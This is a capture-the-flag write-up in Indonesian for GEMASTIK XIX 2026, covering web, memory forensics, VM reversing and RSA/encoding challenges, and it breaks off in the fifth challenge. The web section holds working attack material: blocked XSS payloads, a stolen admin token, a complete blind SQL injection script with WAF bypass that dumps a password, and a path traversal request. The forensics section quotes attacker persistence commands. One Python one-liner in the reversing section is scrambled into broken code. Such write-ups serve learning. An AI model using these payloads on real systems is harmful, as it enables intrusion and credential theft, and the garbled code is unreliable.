# Writeup GEMASTIK XIX 2026


### Team: DOSCOM Zero Day Scholars

| Username                                                                     | Score |
| ---------------------------------------------------------------------------- | ----- |
| [sanzxcte](https://cybersecurity-gemastik2026.apps.binus.ac.id/users/17)     | 789   |
| [nexsus404](https://cybersecurity-gemastik2026.apps.binus.ac.id/users/20)    | 766   |
| [x0r aka teto](https://cybersecurity-gemastik2026.apps.binus.ac.id/users/32) | 330   |


## Daftar Isi Challenge

| #   | Challenge           | Kategori       | Points |
| --- | ------------------- | -------------- | ------ |
| 1   | `BMN`               | `web`          | `498`  |
| 2   | `Afterimage`        | `forensic`     | `473`  |
| 3   | `wraith`            | `reverse`      | `116`  |
| 4   | `Ecliprime`         | `crypto`       | `100`  |
| 5   | `common-encoding`   | `crypto`       | `100`  |
| 6   | `Wormhole`          | `web`          | `408`  |
| 7   | `Cinder`            | `forensics`    | `100`  |
| 8   | `Ghost in the Core` | `forensics`    | `384`  |
| 9   | `hexlock`           | `reverse`      | `500`  |
| 10  | `mantra`            | `pwn / kernel` | `481`  |
| 11  | `Nonce-nse`         | `crypto`       | `500`  |
| 12  | `Tombstone`         | `forensics`    | `500`  |
| 13  | `TZKS`              | `crypto`       | `499`  |


# 1. `BMN` — web



---

### 📝 Deskripsi Soal

> **Description dari panitia:**
> - **BMN: yok dep app**
> - _dev: emangnya sudah di pentest?_
> - **BMN: gas aja yang penting botnya udah jalan**
> - _dev: awas akunmu_
> - **provider account like kind of developer** (keknya keluar pas wave 2)

**Connection info:**

```text
http://15.232.64.175:13410
```

---

### ⚔️ Exploitation Step

Login ke dashboard dulu, buat explore dashboardnya.



Disini mata saya langsung fokus ke fitur transfer sama dokumen, sempet ngehabisin banyak waktu buat
explore fitur transfer yang kirain kita bakal IDOR buat dapetin apa gitu dan ternyata engga, jadi
langsung fokus ke fitur dokumen.



Dan baru sadar kalo ada kolom status yang bakal berubah secara otomatis, nunggu beberapa detik gitu
dia bakal langsung `approved`. Berarti ada mekanisme buat auto approve gitu dari sistem, atau user
lain (ada bot admin yang ninjau).




Sempet mikir kalo SSRF tapi kok keknya ga mungkin ya di fitur kek ginian, jadi langsung kepikiran
apa XSS kali ya. Nyoba basic payload XSS kena 403, makin yakin kalo ini emang harus XSS buat dapetin
cookie dari user lain.


Payload yang kena blok:

```javascript
<script>alert(1)</script>
javascript:

oneerror=
onload=
onfocus=
onclick=
<svg onload=>
<body onload>
document.cookie
```

Setelah mikir buat pake tag yang bisa bypass WAF dari hasil fuzzing payload, saya kepikiran buat
pake tag `details`.



Dengan hasil akhir seperti ini (payload ditaruh sebagai isi dokumen, pas bot ninjau `ontoggle`
jalan dan cookie dikirim ke webhook):


Disini kita bisa dapet `admin_token=`:



```
"admin_token=c18ab6435dd4141b246779795e7e9bd9"
```

Terus langsung aja tambahin value baru di storage browser.



Disini sempet bingung karna tampilan dashboard ga berubah apa apa, gaada menu baru atau semacamnya.



Terus kepikiran buat akses path `/admin` dan ternyata bisa.



Disini cuma ada input field buat reset username user. Sini saya fuzzing aja pake username ngawur
dan valid, tambahin `'`, username user yang valid, sama username ngawur buat ngeliat perbedaan
responnya.

Hasil fuzzing nunjukin kalo user yang ngawur itu responsennya:

```
POST /admin/reset
username=kuda

Response
{"message":"Pengguna tidak ditemukan.","status":"notfound"}
```

Hasil fuzzing nunjukin kalo user yang valid itu responsennya:

```
POST /admin/reset
username=lemper

Response
{"message":"Tautan reset kata sandi telah dikirim ke nasabah.","status":"ok"}
```

Hasil fuzzing nunjukin kalo user yang valid atau pun ngawur dengan `'` itu responsennya:

```
POST /admin/reset
username=lemper' / username=AAAAAAAAAAAAAAAAa'

Response
{"message":"Permintaan tidak dapat diproses.","status":"error"}
```

Disini saya pake sqlmap buat validasi apakah vuln sama SQL injection apa ga.


Ternyata vuln tapi emang perlu bypass WAF-nya. Karna saya malas umek-umek pake sqlmap dan udah coba
akalin via tamper script ga bisa, jadi mending manual aja.


Setelah nyoba ngakalin kita bisa bypass pake `/**/` sebagai separator.



Karna emang dia boolean based blind, kita harus bruteforce dari length sampe isi dari data yang mau
kita ambil. Karna dari soal itu bilang user provider itu kek user developer, jadi saya kepikiran
dump password dari user provider. Tapi disini saya sempet bingung apakah usernya itu tetep provider
apa beda.



Dari fitur reset pass kita tau kalo username untuk user provider itu ya tetep `provider` hehe, jadi
langsung aja disini saya buat script buat dump password provider berdasarkan username. Solver
lengkap di [`solve.py`](solve.py):

```python
import requests, time, sys

COOKIE = {"admin_token": "c18ab6435dd4141b246779795e7e9bd9"}
URL = "http://15.232.64.175:13410/admin/reset"
HEADERS = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:150.0) Gecko/20100101 Firefox/150.0"}

# patokan ril or fek
# {"status":"ok"}        -> TRUE response dari web
# {"status":"notfound"}  -> FALSE ni kalo usernamenya gaada
TRUE_MARKER = '"status":"ok"'
FALSE_MARKER = '"status":"notfound"'

def check_char(position, char_code):
    payload = f"nonexist'/**/OR/**/(unicode/**/(substr/**/(password,{position},1))={char_code}/**/AND/**/\"role\"='provider')/**/AND/**/'1'='1"
    r = requests.post(URL, headers=HEADERS, cookies=COOKIE, data={"username": payload})
    return TRUE_MARKER in r.text

def main():
    print("[*] Dumping password provider...")
    found = ""
    not_found_count = 0
    max_not_found = 3  # 3x ga nemu berarti kelar
    for pos in range(1,100):
        found_char = None
        for code in range(32, 127):
            if check_char(pos, code):
                found_char = chr(code)
                found += found_char
                print(f"[+] FOUND '{found_char}' {pos:2d} | [{found}]")
                not_found_count = 0
                break

        if found_char is None:
            not_found_count += 1
            print(f"[-] Pos {pos}: not_found_count={not_found_count}")

        if not_found_count >= max_not_found:
            print(f"[-] {max_not_found}x not found. Stoping.")
            break

    print(f"\n[+] PASSWORD PROVIDER: {found}")

if __name__ == "__main__":
    main()
```


```
username: provider
password: pr0v1d3r_k3y_2n26
```

Login pakai kredensial `provider` tadi, masuk ke Portal Provider.


Habis buka captcha di vault baru kita bisa ke statement buat get `welcome.txt`, yang setelah diliat
dari requestnya fix path traversal.



Pake payload `..%2f..%2f..%2fflag` karna `../../../flag` kena WAF, jadi coba encode aja.

```
GET /provider/statement?file=..%2f..%2f..%2fflag
```



---

### 🚩 Flag

```
GEMASTIK19{bmn_x55b0t_bl1ndsqli_p4thtr4v_w4fbyp455_cha1n3d}
```

---

---

# 2. `Afterimage` — forensic



---

### Deskripsi Soal

> **Description dari panitia:**
>
> There was an incident happening in one of our container in our main server. There were only few footprints and one file was stolen. Our Incident Response team with the Security Research decided to narrow down the search by dumping the only artifact related to the incident of the container.

** Attachment:**

| `https://drive.google.com/file/d/1-oNp3SVWuNmWoyX_UAoSg-TFlQqlDvnM/view?usp=sharing` | zip | 1.2 KB |

** File info:**

```bash
memory.lime
```

---

### Exploitation Step

> Langkah awal untuk memahami struktur & behavior challenge.

```bash
unzip -l mem.zip          # memory.lime, 64.203.104 byte
unzip mem.zip
file memory.lime          # data
```

Cek header LiME (Linux Memory Extractor):

```python
magic = 0x4c694d45   # "LiME"
version = 1
```


Ini dump **memori fisik**, bukan file image. Konsekuensinya penting dan nanti akan menggigit:
halaman virtual sebuah proses tidak berurutan di dump ini.

Cek isi kasar:

```bash
strings -a -n 10 memory.lime | grep -aiE "^Linux version|Debian |Alpine"
# GCC: (Debian 14.2.0-19) 14.2.0

strings -a -n 8 memory.lime | grep -aoiE "docker|containerd|runc" | sort | uniq -c
#  102 docker / 99 runc / 80 containerd
```


## Merekonstruksi insiden dari scrollback terminal

Cari jejak eksfiltrasi:

```bash
strings -a -n 6 memory.lime | grep -aoiE "(base64 -d|memfd_create|ld\.so\.preload)"
```

Dua baris langsung menonjol: `base64 -d > /dev/shm/.pulse-x`.


Dengan mengambil konteks di sekitarnya, seluruh rangkaian serangan terbaca:

Ketika kita memfilter dump memori menggunakan pola string spesifik seperti `base64 -d`, `memfd_create`, dan `ld.so.preload`, output yang muncul langsung memperlihatkan indikator utama dari teknik eksfiltrasi dan persistensi penyerang:

* **`ld.so.preload`**: Muncul berulang kali karena penyerang mencoba memasang dynamic linker preload untuk memuat rootkit (`.so`), yang sayangnya sempat gagal dan memicu error berulang di memori.
* **`base64 -d`**: Menunjukkan perintah yang dipakai penyerang untuk mendekode payload yang dikirim secara terpotong-potong melalui variabel terminal.
* **`memfd_create`**: Menandakan teknik eksekusi *fileless* (tanpa menulis file fisik ke disk) yang digunakan untuk menjalankan payload berbahaya dan menyamar sebagai proses kernel `[kworker/u8:2]`.

Dari temuan inilah kita tahu bahwa meskipun penyerang mencoba membersihkan jejak menggunakan `history -c`, buffer terminal (*afterimage*) di memori masih merekam seluruh rangkaian aksi mereka dengan jelas.
---

Karena buffer scrollback terminal merekam seluruh interaksi secara utuh, kita tidak hanya menemukan perintah eksekusinya saja, tetapi juga artefak data yang dikirim oleh penyerang. Jika kita telusuri baris-baris teks di sekitar perintah `base64 -d` pada dump memori, terlihat jelas ada sisa string Base64 yang ikut tertinggal (*afterimage*). Kita bisa mencarinya langsung di file memori:

```bash
strings -a memory.lime | grep "KEVt/"
```
Dari pencarian tersebut, terungkaplah string Base64 utuh yang menjadi muatan data curian penyerang:
```bash
KEVt/ztn6l1WUQBRFINKy4Jp/VQ8kzAn/cZ2MlHoZCUAOvRFumQ4KUESHqdXwjbmowc/3389i++Zwpxzav79dikwrqx6/XlyULlASA==
```

## Blob Curian
Dari jejak terminal yang terekam tersebut, string berawalan KEVt/ ini merupakan data yang di-decode oleh penyerang. Ketika kita periksa lebih lanjut, teks Base64 tersebut menghasilkan 76 byte data acak (ciphertext) dengan entropi tinggi. Data inilah yang berisi file curian (/srv/app/flag.txt) dan harus kita buka kuncinya.
Untuk membuktikannya, kita dapat menjalankan utilitas Python di terminal untuk mendekode string tersebut dan memverifikasi panjang biner aslinya:
```bash
python3 -c 'import base64; b = base64.b64decode("KEVt/ztn6l1WUQBRFINKy4Jp/VQ8kzAn/cZ2MlHoZCUAOvRFumQ4KUESHqdXwjbmowc/3389i++Zwpxzav79dikwrqx6/XlyULlASA=="); print(len(b))'
```


## Membedah Payload dan Menemukan Kunci
Setelah memastikan ukuran blob data curian valid sepanjang 76 byte, langkah berikutnya adalah mengekstrak parameter kriptografi dari sisa payload di memori. Kita dapat melakukannya murni menggunakan perintah terminal standar (strings, grep, dd, dan xxd).
Langkah 1: Menemukan Lokasi Konstanta ChaCha20
Pertama, cari alamat memori dari string konstanta sigma "expand 32-byte k" yang menandakan algoritma ChaCha20:
```bash
strings -a -t x memory.lime | grep "expand 32-byte k"
```


Dari hasil di atas, string penanda tersebut ditemukan pada alamat 0x31699f0.
Langkah 2: Memindai Blok Kunci dan Nonce dengan Analisis Entropi
Karena struktur memori fisik tersebar dan perintah offset statis via dd tidak mengenai blok data biner yang tepat, kita melakukan pemindaian lanjutan (entropy scanning) di sekitar area alamat .rodata tersebut untuk menemukan blok data acak (kunci dan nonce) yang disimpan oleh compiler:
```bash
dd if=memory.lime bs=1 skip=$((0x31699f0 - 128)) count=128 2>/dev/null | xxd
```


Hasil Ekstraksi Parameter
Dari tabel heksadesimal yang tercetak di terminal, baris data biner tepat di sebelum string konstanta tersebut memperlihatkan parameter kriptografi yang digunakan:
Nonce (12-byte): 5aa2e1ef2bcc80868ad53417
Kunci (32-byte): 15d19593e44d3f39bf2fab5e52410d5af1cea024256bd44692a1d033356575c7

### 5. Dekripsi Akhir
Setelah mendapatkan parameter Kunci dan Nonce yang valid serta ciphertext berukuran 76 byte, tahap terakhir adalah melakukan dekripsi menggunakan algoritma ChaCha20.
Catatan Kritis RFC 8439
Dalam standar RFC 8439, blok pertama (counter = 0) pada ChaCha20 secara khusus dicadangkan untuk kunci autentikasi Poly1305. Karena ciphertext hasil eksfiltrasi ini merupakan data murni tanpa tag Poly1305 dan menggunakan 12-byte nonce, proses dekripsi wajib dimulai dari counter = 1. Jika menggunakan counter = 0, hasil dekripsinya akan berupa data sampah (garbage).
Skrip Eksekusi Dekripsi (solve.py)
Kita jalankan skrip Python berikut untuk mendekripsi blob data curian tersebut:

```bash
import base64
from Crypto.Cipher import ChaCha20

def decrypt_afterimage_rfc8439():
    # 1. Parameter dari analisis memori CTF "Afterimage"
    key_hex = "15d19593e44d3f39bf2fab5e52410d5af1cea024256bd44692a1d033356575c7"
    nonce_hex = "5aa2e1ef2bcc80868ad53417"
    ciphertext_b64 = "KEVt/ztn6l1WUQBRFINKy4Jp/VQ8kzAn/cZ2MlHoZCUAOvRFumQ4KUESHqdXwjbmowc/3389i++Zwpxzav79dikwrqx6/XlyULlASA=="

    # 2. Konversi format data hex & base64 ke bytes
    key = bytes.fromhex(key_hex)
    nonce = bytes.fromhex(nonce_hex)
    ciphertext = base64.b64decode(ciphertext_b64)

    # 3. Inisialisasi cipher ChaCha20 dengan 12-byte nonce
    cipher = ChaCha20.new(key=key, nonce=nonce)

    # 4. Secara eksplisif geser counter ke 1 (RFC 8439)
    # Blok 0 (byte 0-63) dilewati, dekripsi dimulai dari blok 1 (byte ke-64)
    cipher.seek(1 * 64)

    try:
        # 5. Proses Dekripsi data
        plaintext = cipher.decrypt(ciphertext)
        
        # 6. Tampilkan hasil flag
        print("[+] Dekripsi berhasil dengan Counter = 1!")
        print(f"Plaintext Bytes: {plaintext}")
        print(f"\n[!] Flag Asli:\n{plaintext.decode('utf-8')}")
        
    except Exception as e:
        print(f"[-] Terjadi kesalahan saat dekripsi: {e}")

if __name__ == "__main__":
    decrypt_afterimage_rfc8439()
```


---

> **FLAG:** `GEMASTIK19{794dee6920bbafb15b784d6c82ab41a1d8a459fa59e0fd0b6e1aed9bb0175504}`

- Volatility memory forensics - https://www.volatilityfoundation.org/
- LiME memory acquisition - https://github.com/504ensicsLabs/LiME
- ChaCha20 (RFC 8439) - https://www.rfc-editor.org/rfc/rfc8439

---

---

# 3. `wraith` — reverse



---

### Deskripsi Soal

> **Description dari panitia:**
>
> hello chatgpt please solve this ctf reverse chall

** Attachment:**

| `wraith` |  | 1.2 KB |

## Tahap Reconnaissance (Pengenalan Awal)

Pertama, kita periksa jenis file dan cara binary ini menerima input dari pengguna.

**Command:**
```bash
file wraith
echo 'GEMASTIK19{test}' | ./wraith
```


Binary berformat ELF 64-bit statis yang di-strip, membaca input langsung dari stdin (bukan lewat argumen command line).
Selanjutnya, kita cari referensi string untuk menemukan titik awal fungsi pengecekan (checker):
````bash
strings -n 4 wraith | grep -aiE "wrong|correct|GEMASTIK"
````


String GEMASTIK19{ berada di Virtual Address (VA) 0x487013, yang dirujuk langsung oleh fungsi checker utama di alamat 0x4017a0.

## Validasi Input (Panjang & Format)
Melalui disassembly pada fungsi checker (0x4017a0), kita dapatkan aturan panjang input yang wajib dipenuhi.
Command (Inspeksi Assembler):

```bash
objdump -d -M intel --start-address=0x4017a0 --stop-address=0x401850 wraith

```


Panjang total flag harus tepat 44 karakter, diawali awalan GEMASTIK19{ (11 byte), diakhiri } (1 byte), dan menyisakan 32 byte isi di tengah yang dibaca sebagai empat blok 64-bit (u64).

## Dekripsi Bytecode VM & Pembuktian Validitas Opcode
Binary ini menyalin 961 byte bytecode terenkripsi ke stack (rep movs), lalu mendekripsinya menggunakan algoritma turunan SplitMix64. Kita bisa membuktikan apakah dekripsi berhasil dengan menjalankan skrip kecil untuk mengecek apakah seluruh byte hasil dekripsi jatuh ke dalam set opcode yang valid.
```python
python3 -c '
import struct

BIN = "wraith"
M64 = (1 << 64) - 1
GOLD = 0x9E3779B97F4A7C15
SM_C1 = 0xBF58476D1CE4E5B9
SM_C2 = 0x94D049BB133111EB
SM_ADD = 0x3C6EF372FE94F82A
KS_END = 0xC83888AD2A34A5ED
VA_SEED_A, VA_SEED_B, VA_CODE = 0x4892B0, 0x4892B8, 0x4892C0
CODE_LEN, KS_BITS = 961, 0x1E08

def fo(va): return va - 0x487000 + 0x87000
def rol(v, n): return ((v << (n & 63)) | (v >> (64 - (n & 63)))) & M64 if (n & 63) else v

data = open(BIN, "rb").read()
seed_a = struct.unpack("<Q", & + 0 GOLD) M64 True: bits, code="bytearray(data[fo(VA_CODE):fo(VA_CODE)+CODE_LEN])" data[fo(VA_SEED_A):fo(VA_SEED_A)+8])[0] data[fo(VA_SEED_B):fo(VA_SEED_B)+8])[0] pos="KS_BITS," seed_b="struct.unpack("<Q"," seed_b, state="(state" t="((state" while x8, xs,>> 30) ^ state) * SM_C1 & M64
    t = ((t >> 27) ^ t) * SM_C2 & M64
    saved = t
    a = t ^ xs
    xs = rol(xs, 29)
    a ^= saved >> 31
    a = (a + x8) & M64
    xs ^= a
    a = rol(a, 17)
    x8 = a
    k = (xs + a) & M64
    c = 0
    while c < 64 and c < bits:
        if pos < len(code): code[pos] ^= (k >> c) & 0xFF
        pos += 1; c += 8
    if c >= bits or state == KS_END: break
    bits -= 64

prog = [(code[i], code[i+1], code[i+2]) for i in range(0, len(code)-2, 3)]
valid = {0x11, 0x22, 0x33, 0x44, 0x55, 0x66, 0x77, 0x88, 0x99}
print("Apakah semua opcode valid?", all(op in valid for op, _, _ in prog))
print("Jumlah total instruksi:", len(prog))
'
````


Seluruh 320 instruksi VM tervalidasi sempurna tanpa ada opcode sampah, menandakan keystream dekripsi sudah 100% akurat.

## Analisis Invertibilitas & Struktur Feistel 24 Ronde
Mesin virtual ini mengeksekusi 320 instruksi yang terdiri dari:
4 instruksi LOADIN (memuat input)
24 ronde Feistel (masing-masing 13 instruksi)
4 instruksi CHECK (pencocokan dengan nilai target di 0x489288)
Karena seluruh operasi di dalam ronde Feistel bersifat invertibel (penjumlahan dibalik pengurangan, rotasi ROL dibalik ROR, dan perkalian modulo 2 
64
  dibalik menggunakan invers modular karena semua pengalinya ganjil), kita tidak memerlukan solver otomatis (Z3). Kita bisa membalikkan program ini secara langsung dari target ke input.

## Eksekusi Solver & Pembuktian Flag
Kita jalankan skrip pembalik (decoder.py) untuk memproses inversi secara matematis sekaligus melakukan verifikasi akhir ke binary asli.

```bash
import struct
import subprocess
import sys

BIN = "wraith"
M64 = (1 << 64) - 1
GOLD = 0x9E3779B97F4A7C15
SM_C1 = 0xBF58476D1CE4E5B9
SM_C2 = 0x94D049BB133111EB
SM_ADD = 0x3C6EF372FE94F82A
KS_END = 0xC83888AD2A34A5ED

VA_MULTAB = 0x4891C0
VA_TARGET = 0x489288
VA_SEED_A = 0x4892B0
VA_SEED_B = 0x4892B8
VA_CODE = 0x4892C0
CODE_LEN = 961
KS_BITS = 0x1E08

def fo(va):
    return va - 0x487000 + 0x87000

def rol(v, n):
    n &= 63
    return ((v << n) | (v >> (64 - n))) & M64 if n else v

def ror(v, n):
    return rol(v, 64 - (n & 63)) if (n & 63) else v

def splitmix_final(z):
    z = ((z >> 30) ^ z) * SM_C1 & M64
    z = ((z >> 27) ^ z) * SM_C2 & M64
    return (z >> 31) ^ z

def decrypt_bytecode(blob, seed_a, seed_b):
    code = bytearray(blob)
    x8, xs, state = seed_a, seed_b, 0
    bits, pos = KS_BITS, 0
    while True:
        state = (state + GOLD) & M64
        t = ((state >> 30) ^ state) * SM_C1 & M64
        t = ((t >> 27) ^ t) * SM_C2 & M64
        saved = t
        a = t ^ xs
        xs = rol(xs, 29)
        a ^= saved >> 31
        a = (a + x8) & M64
        xs ^= a
        a = rol(a, 17)
        x8 = a
        k = (xs + a) & M64
        c = 0
        while c < 64 and c < bits:
            if pos < len(code):
                code[pos] ^= (k >> c) & 0xFF
            pos += 1
            c += 8
        if c >= bits:
            break
        bits -= 64
        if state == KS_END:
            break
    return bytes(code)

def main():
    try:
        data = open(BIN, "rb").read()
    except FileNotFoundError:
        sys.exit(f"[-] {BIN} tidak ada")
    print(f"[*] Memuat {BIN} ({len(data):,} byte)")

    seed_a = struct.unpack("<Q", data[fo(VA_SEED_A):fo(VA_SEED_A) + 8])[0]
    seed_b = struct.unpack("<Q", data[fo(VA_SEED_B):fo(VA_SEED_B) + 8])[0]
    code = decrypt_bytecode(data[fo(VA_CODE):fo(VA_CODE) + CODE_LEN], seed_a, seed_b)

    prog = [(code[i], code[i + 1], code[i + 2]) for i in range(0, len(code) - 2, 3)]
    valid = {0x11, 0x22, 0x33, 0x44, 0x55, 0x66, 0x77, 0x88, 0x99}
    if not all(op in valid for op, _, _ in prog):
        sys.exit("[-] dekripsi bytecode gagal, ada opcode tak dikenal")
    print(f"[+] Bytecode terdekripsi: {len(prog)} instruksi, semua opcode valid")

    mul = list(struct.unpack("<24Q", data[fo(VA_MULTAB):fo(VA_MULTAB) + 24 * 8]))
    target = list(struct.unpack("<4Q", data[fo(VA_TARGET):fo(VA_TARGET) + 32]))
    if any(m % 2 == 0 for m in mul):
        sys.exit("[-] ada pengali genap, tidak invertibel")
    
    minv = [pow(m, -1, 1 << 64) for m in mul]
    konst = [splitmix_final((i * GOLD + SM_ADD) & M64) for i in range(24)]
    print(f"[+] 24 pengali (semua ganjil), 24 konstanta ronde, 4 nilai target")

    # ---- jalankan mundur dari target -----------------------------------
    r = list(target)
    for i in reversed(range(24)):
        r[0] = (r[0] - konst[i]) & M64                 # ADDK
        r[1], r[2], r[3] = r[3], r[1], r[2]             # balik permutasi MOV
        r[3] ^= r[2]
        r[3] = ror(r[3], 37)
        r[2] = r[2] * minv[i] & M64
        r[2] = (r[2] - r[3]) & M64
        r[1] ^= r[0]
        r[1] = ror(r[1], 13)
        r[0] = r[0] * minv[i] & M64
        r[0] = (r[0] - r[1]) & M64
    print(f"[+] Input dipulihkan: {[hex(x) for x in r]}")

    # ---- verifikasi dengan menjalankan maju -----------------------------
    f = list(r)
    for i in range(24):
        f[0] = (f[0] + f[1]) & M64
        f[0] = f[0] * mul[i] & M64
        f[1] = rol(f[1], 13) ^ f[0]
        f[2] = (f[2] + f[3]) & M64
        f[2] = f[2] * mul[i] & M64
        f[3] = rol(f[3], 37) ^ f[2]
        f[1], f[2], f[3] = f[2], f[3], f[1]
        f[0] = (f[0] + konst[i]) & M64
        
    if f != target:
        sys.exit("[-] verifikasi maju gagal, inversi salah")
    print("[+] Verifikasi maju cocok dengan target")

    inner = b"".join(struct.pack("<Q", x) for x in r)
    flag = "GEMASTIK19{" + inner.decode("latin1") + "}"
    print(f"[+] FLAG: {flag}")

    # ---- verifikasi akhir ke binary aslinya -----------------------------
    res = subprocess.run(["./" + BIN], input=flag.encode(),
                         capture_output=True, timeout=60)
    out = (res.stdout + res.stderr).decode(errors="replace").strip()
    print(f"[+] Verifikasi ./{BIN}: {out}")

if __name__ == "__main__":
    main()
```

Flag GEMASTIK19{n3st3d_vm_MUL0_ant1z3_1nv_h4nd!!} berhasil dipulihkan secara instan, lolos uji verifikasi maju, dan saat di-pipe langsung ke binary aslinya, binary

---

> **FLAG:** `GEMASTIK19{n3st3d_vm_MUL0_ant1z3_1nv_h4nd!!}`

- VM bytecode reversing - https://maxkersten.nl/binary-reversing/2023/08/09/reversing-a-custom-vm/
- SplitMix64 PRNG - https://prng.di.unimi.it/splitmix64.c
- Feistel cipher invertibility - https://en.wikipedia.org/wiki/Feistel_cipher

---

---

# 4. `Ecliprime` — crypto



---

### Deskripsi Soal

> **Description dari panitia:**
>
> Saat gerhana menutupi sebagian besar bilangan prima, jejak kecilnya masih tertinggal dalam bayangan. Sebuah pesan telah diamankan menggunakan RSA dan enkripsi berlapis, tetapi salah satu faktor penyusunnya tidak sepenuhnya tersembunyi.

** Attachment:**

| `challenge.py` | python | 1.2 KB |

## Analisis Awal (Recon)

Berdasarkan analisis file `challenge.py`, kita diberikan beberapa parameter penting RSA beserta komponen enkripsi lapis keduanya:

* **Modulus ($N$):** Berukuran 1023 bit, yang berarti faktor prima $p$ dan $q$ masing-masing berukuran sekitar 512 bit.
* **$p_{high}$:** Bilangan 512 bit di mana 200 bit bagian bawahnya bernilai nol sebagai *placeholder* ($p_{high} \pmod{2^{200}} == 0$).
* **Variabel Pengecoh (`oaep_ciphertext`):** Disediakan di dalam file, namun setelah ditelusuri pada fungsi penurunan kunci, variabel ini sama sekali tidak pernah digunakan (sebagai *decoy* / umpan).
* **Jalur Kunci (`derive_key`):** Kunci AES diturunkan langsung dari faktor prima $p$ melalui HKDF-SHA256 menggunakan parameter $p_{small}$ dan $d_p$.

---

## Eksploitasi: Metode Coppersmith

Karena sebagian besar bit dari $p$ sudah diketahui ($p_{high}$) dan hanya menyisakan 200 bit yang tidak diketahui ($M = 200$), kita dapat memanfaatkan **Coppersmith's Method** untuk mencari akar kecil dari polinomial modulo $N$.

Batas teoretis Coppersmith untuk pemulihan sebagian bit faktor adalah setengah dari panjang bit faktor itu sendiri ($\le 256$ bit untuk $p$ 512 bit). Karena nilai $M = 200$ berada di bawah batas tersebut, metode ini aman dan dapat digunakan.

Langkah-langkah pembentukan polinomial dan pencarian akar kecil menggunakan SageMath:

1. Definisikan ring polinomial di atas $\mathbb{Z}_N$.
2. Buat polinomial monik: $f(x) = p_{high} + x$.
3. Jalankan fungsi `small_roots` dengan batas pencarian akar selebar $2^{200}$ ($X = 2^{200}$).
---
## Implementasi Solver Python & SageMath

Berikut adalah kode *script solver* lengkap untuk mengekstrak nilai $p$, memverifikasi faktor $N$, menurunkan kunci, serta mendekripsi flag AES-256-GCM:

```python
import importlib
from Crypto.Cipher import AES

# 1. Mengimpor modul challenge.py secara dinamis
challenge = importlib.import_module("challenge")

N = challenge.N
e = challenge.e
M = challenge.M
p_high = challenge.p_high
flag_enc = challenge.flag_enc

# 2. Validasi struktur bit bawah p_high sesuai permintaan
assert p_high % (2**M) == 0, "Asumsi struktur p_high tidak sesuai dengan M!"
print(f"[+] Validasi bit bawah p_high sukses (mod 2^{M} == 0).")

# 3. Rekonstruksi p menggunakan Coppersmith's Method
P.<x> = PolynomialRing(Zmod(N))
f = (p_high + x).monic()

roots = f.small_roots(X=2^M, beta=0.4, epsilon=0.02)

if roots:
    x_val = int(roots[0])
    p = p_high + x_val
    print(f"[+] Berhasil menemukan x: {x_val}")
    print(f"[+] Nilai p ditemukan: {p}")

    # Validasi faktor N
    if N % p == 0:
        q = N // p
        print(f"[+] Validasi sukses! p adalah faktor dari N. (q = {q})")

        # 4. Memanggil fungsi derive_key asli dari modul challenge
        key = challenge.derive_key(int(p))

        # 5. Dekripsi AES-256-GCM
        cipher = AES.new(key, AES.MODE_GCM, nonce=bytes.fromhex(flag_enc["nonce"]))
        ciphertext_bytes = bytes.fromhex(flag_enc["ciphertext"])
        tag_bytes = bytes.fromhex(flag_enc["tag"])

        try:
            flag = cipher.decrypt_and_verify(ciphertext_bytes, tag_bytes)
            print(f"\n[!] FLAG KETEMU: {flag.decode('utf-8')}")
        except Exception as err:
            print(f"[-] Gagal dekripsi: {err}")
    else:
        print("[-] Nilai p bukan faktor dari N.")
else:
    print("[-] Akar kecil tidak ditemukan.")
```
## Bukti Hasil Eksekusi (Output)
Setelah skrip di atas dijalankan menggunakan lingkungan SageMath (sage solve.sage), proses dekripsi berjalan sukses dan mengeluarkan hasil berikut:


---

> **FLAG:** `GEMASTIK19{c0pp3rsm1th_g4t3d_kdf_d3c0y_0aep_n34r_th3_b0und}`

- Coppersmith method (small roots) - https://en.wikipedia.org/wiki/Coppersmith_method
- RSA partial factoring - https://facts.ryt.cz/
- SageMath small_roots - https://doc.sagemath.org/html/en/reference/polynomials/sage/rings/polynomial/polynomial_modn.html

---

---

# 5. `common-encoding` — crypto



---

### Deskripsi Soal

> **Description dari panitia:**
>
> Did you know basic encoding? Need deleting spaces? howd?

** Attachment:**

| `chiper.txt` | python | 1.2 KB |

## Informasi Soal
* **Kategori:** Cryptography
* **Format Flag:** `GEMASTIK19{...}`
---

## Karakteristik & Analisis Ciphertext
Berdasarkan pemeriksaan awal pada *ciphertext*, ditemukan aturan struktur sebagai berikut:
* **Marker Start & End:** Diawali dengan huruf `S` dan diakhiri dengan huruf `Z`.
* **Delimiter:** Pemisah antar blok data menggunakan string `DW`.
* **Format Data:** Di dalam setiap blok, hanya terdapat karakter `O` dan `H` yang merepresentasikan biner:
  * `O` = `1`
  * `H` = `0`
* **Alur Dekode:**
  1. Hilangkan *marker* `S` dan `Z`.
  2. Pecah (*split*) data berdasarkan delimiter `DW`.
  3. Konversikan setiap blok biner ke nilai desimal, lalu ke karakter ASCII.
  4. Hasil gabungan dari seluruh karakter tersebut membentuk sebuah string berformat **Hex**.
  5. Lakukan dekode sekali lagi dari Hex ke ASCII untuk mendapatkan *flag* akhir.

---

## Python Solver Script
Berikut adalah skrip otomatisasi menggunakan Python untuk melakukan *parsing* dan dekode ciphertext secara instan:

```python
def solve_ctf():
    # Ciphertext yang diberikan
